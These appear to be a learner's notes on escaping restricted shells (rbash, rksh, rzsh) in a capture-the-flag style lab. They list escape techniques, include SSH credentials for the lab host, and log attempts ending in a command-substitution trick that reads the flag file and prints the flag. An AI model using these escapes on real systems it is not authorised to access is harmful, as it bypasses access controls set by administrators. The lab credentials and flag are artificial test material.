 # Escaping Restricted Shells

To protect the security and integrity of the network, the organization's IT team decided to implement restricted shells for all users

## RBASH
https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html

--> it limits the user's ability to use certain features of the Bourne shell, such as changing directories, setting or modifying environment variables, and executing commands in other directories.

## RKSH
https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command

--> it limits the user's ability to use certain features of the Korn shell, such as executing commands in other directories, creating or modifying shell functions, and modifying the shell environment.

## RZSH
https://manpages.debian.org/experimental/zsh/rzsh.1.en.html

--> it limits the user's ability to use certain features of the Z shell, such as running shell scripts, defining aliases, and modifying the shell environment.

In term of how deep we can personnalize the restricted shell :
1st level : RBASH , 2nd level : RKSH and 3rd level : RZSH


## Escaping

Command injection
ls -l `pwd` 

Command Substitution
enclosing them in backticks (`)

Command Chaining
semicolon (;) or a vertical bar (|),

Environment Variables
modifying or creating environment variables that the shell uses to execute commands that are not restricted by the shell

Shell Functions
call shell functions that execute commands not restricted by the shell

## LAB

ssh htb-user@10.129.205.109
HTB_@cademy_us3r!

cat /flag.txt
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

`cat /flag.txt`
`ls`
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names


pwd
/home/htb-user

pwd ; ls

pwd `ls` 

-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
/home/htb-user

text='ls -l'
echo "${text}"
ls -l

$text

echo "$(ls -l)"
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

echo "$(<flag.txt )"
HTB{35c4p3_7h3_r3stricted_5h311}
